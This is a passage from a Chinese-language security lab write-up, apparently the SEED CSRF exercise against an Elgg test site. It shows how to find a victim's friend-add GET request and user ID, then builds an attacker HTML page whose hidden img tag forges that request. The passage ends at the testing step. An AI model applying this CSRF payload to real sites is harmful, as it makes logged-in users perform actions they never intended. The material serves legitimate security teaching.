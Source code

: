 ![image-20230530200348519](assets/image-20230530200348519.png)

get请求为http://www.csrflabelgg.com/action/friends/add?friend=(id号)

### 1.1.2 获取Samy的ID

通过检查可知Samy的ID为45

![image-20230530200728986](assets/image-20230530200728986.png)

### 1.1.3 构造恶意站点

在`/var/www/CSRF/Attacker`下新建csrf_get.html文件

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF</title>
</head>
<body>
    <img src="http://www.csrflabelgg.com/action/friends/add?friend=45"/>
</body>
</html>
```

### 1.1.4 测试

